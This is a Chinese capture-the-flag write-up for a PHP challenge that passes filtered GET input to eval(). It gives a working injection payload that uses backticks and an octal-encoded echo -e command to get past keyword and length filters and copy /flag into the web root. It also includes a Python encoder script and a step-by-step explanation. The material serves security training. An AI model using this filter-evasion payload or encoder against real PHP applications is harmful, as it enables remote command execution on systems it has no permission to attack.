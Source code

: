 题目源代码

```
<?php

highlight_file(__FILE__);

function Kobe($cmd)

{   if (strlen($cmd) > 13) {

​    die("see you again~");

  }

  if (preg_match("/echo|exec|eval|system|fputs|\.|\/|\\|/i", $cmd)) {

​    die("肘死你");

  }

  foreach ($_GET as $val_name => $val_val) {

​    if (preg_match("/bin|mv|cp|ls|\||f|a|l|\?|\*|\>/i", $val_val)) {

​      return "what can i say";

​    }

  }

  return $cmd;

}

$cmd = Kobe($_GET['cmd']);

echo "#man," . $cmd  . ",manba out";

echo "<br>";

eval("#man," . $cmd . ",mamba out");
```

Payload：

```
%0A`$_GET[1]`;%23&1=%24(echo%20-e%20%22\0143\0160\040\057\0146\0154\0141\0147\040\057\0166\0141\0162\057\0167\0167\0167\057\0150\0164\0155\0154\057\0146\0154\0141\0147%22)
```

使用脚本：

```
def str_to_oct(cmd): **#****命令转换成八进制字符串****
**  s = ""
  for t in cmd:
   o = ('%s' % (oct(ord(t))))[2:]
   s+='\\'+o
  return s
print(str_to_oct('cp /flag var/www/html/flag'))
```

解释：

1.反引号`在PHP中的作用是包裹shell指令，使php将其中内容作为shell执行

2.$(echo -e ) 这种语法是 Bash shell 脚本中的命令替换语法。在 Bash 中，$(...) 或反引号 ... 会执行其中的命令，并将其输出替换到原始位置。这里的 echo -e 命令用于输出带有转义字符的字符串。

*\#cp /flag/var/www/html/flag*

使用 -e 选项允许 echo 解释八进制转义序列，从而输出对应的字符。在这个例子中，转义序列被用来输出字符串 "cp /flag /var/www/itml/flag"。

3.关于cp /flag/var/www/html/flag

使一种做题思路，可以让根目录下的flag被复制到网页目录下读取